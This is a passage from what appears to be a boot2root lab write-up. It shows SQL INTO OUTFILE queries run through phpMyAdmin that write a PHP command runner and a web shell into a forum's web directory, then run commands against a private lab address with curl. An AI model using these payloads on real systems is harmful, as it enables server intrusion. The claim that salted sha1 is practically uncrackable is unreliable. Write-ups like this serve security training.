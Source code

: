 We look at the source code to find the password hashing algorithm, and here’s what we find:

```php
function generate_pw_hash($pw)
{
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
}
```

The password is hashed with a salt, making it practically uncrackable due to the random string appended to the hash.

## 5. SQL

However, having access to **phpMyAdmin** allows us to execute arbitrary SQL code. We can potentially use this to upload a PHP file that will execute commands on the server.

We try creating a PHP file that can be accessed from the browser and executed. After testing various accessible directories (`/images`, `/themes`, `/includes/`), we find that only the `/templates_c/` directory works.

We run the following SQL query to upload a PHP script into the directory:

```sql
SELECT "<?php system('id'); ?>" INTO OUTFILE '/var/www/forum/templates_c/id.php';
```

Once the file is created, we access it through the browser and successfully execute the **id** command:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that we are now running commands as the **www-data** user, which opens up further possibilities for privilege escalation.

## 6. Get a Reverse Shell

### Setting up a webshell

Now, let's set up a **web shell** to gain more control over the target system. We will modify our SQL query to create a simple PHP web shell that can execute system commands:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/forum/templates_c/webshell.php';
```

We can now access this web shell by using `curl` to send commands to it:

```bash
xel@lucky7 ~/files/42/boot2root % curl --insecure 'https://192.168.0.31/forum/templates_c/webshell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
